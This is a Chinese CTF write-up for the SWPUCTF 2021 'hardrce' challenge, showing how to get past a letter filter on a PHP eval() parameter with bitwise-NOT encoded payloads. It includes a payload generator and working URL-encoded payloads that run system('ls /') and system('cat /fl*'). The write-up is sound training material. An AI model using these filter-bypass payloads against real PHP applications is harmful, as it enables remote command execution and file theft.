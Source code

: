 ```yaml
---
date: 2024-05-25
categories: 
    - SWPUCTF
tag:
    - CTF
    - RCE
    - PHP
    - 无字母RCE
---
```


# 每日一题 —— [SWPUCTF 2021 新生赛]hardrce

> 题目地址：<https://www.nssctf.cn/problem/439>

<!-- more -->

观察到本题有函数 `eval()` 并通过 `wllm` 传参，并过滤了所有的字母以及一部分符号，可知这道题是无字母 RCE。通过查询 RCE bypass, 可以知道对于这种情况，有自增、异或、取反三种不同的绕过方式，所用的符号分别为：`+` `^` `~`。前两个被过滤了，但是取反符号没有被过滤。

我们直接利用 PHP 来生成一个取反的 payload：

```php
<?php
echo urlencode(~'phpinfo');
```

得到：`%8F%97%8F%96%91%99%90`; 

而对于 `eval()` 函数而言，似乎不允许自反时把函数括号给处理，因此 payload格式为： `(~%8F%97%8F%96%91%99%90)();`。 

现在开始构造 payload : `system('ls /')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`

找到根目录下 `/flllllaaaaaaggggggg` 文件，打开它 `system('cat /fl*')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);`

赋值给 `wllm`，得到 flag.